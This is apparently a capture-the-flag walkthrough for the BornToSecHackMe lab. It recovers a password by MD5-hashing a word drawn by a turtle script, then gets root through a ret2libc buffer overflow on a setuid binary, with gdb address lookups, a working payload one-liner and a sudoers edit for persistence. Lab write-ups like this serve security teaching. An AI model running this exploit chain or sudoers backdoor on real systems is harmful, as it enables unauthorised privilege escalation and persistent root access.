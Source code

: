 		i = i + 1
	    forward(150)
	    backward(200)
	    forward(100)
	    right(90)
	    forward(100)
	    right(90)
	    forward(100)
	    backward(200)
	end_fill()
	done()


and the turltle draw the word SLASH of course its not the password
the challenge say we have to "digest the password"
so we will hash the password with 'Message digest5' (MD5)

MD5 slash -> 646da671ca01bb5d84dbb5fb2238dc8e

now that we have zaz password we connect to his session
and what we see there is a binary named exploit_me, with shared uid from root
we run it normally and it just print the argument 

	$ strings ./exploit_me
	...
	strcpy
	...

we try to crash the program 

	$ ./exploit_me $(python -c 'print("A"*500)')
	segfault
we find the offset is 140
we need to find the address of the system 

	(gdb) p system
	$5 = {<text variable, no debug info>} 0xb7e6b060 <system>
	(gdb) p exit
	$6 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
	(gdb) find 0xb7e2b000,+99999999,"/bin/sh"
	0xb7f8cc58

now we can run our exploit !

	./exploit_me $(python -c 'print("\x90"*140+"\x60\xb0\xe6\xb7"+"\xe0\xeb\xe5\xb7"+"\x58\xcc\xf8\xb7")')

now we have a shell with Root right , but when i use id command i am still zaz
so what i will do is :

	$vim /etc/sudoers
	i add : zaz ALL=(ALL:ALL) ALL
then i exit the shell and run 

	zaz@BornToSecHackMe:~$ sudo su
	[sudo] password for zaz: 

i enter zaz password and im root
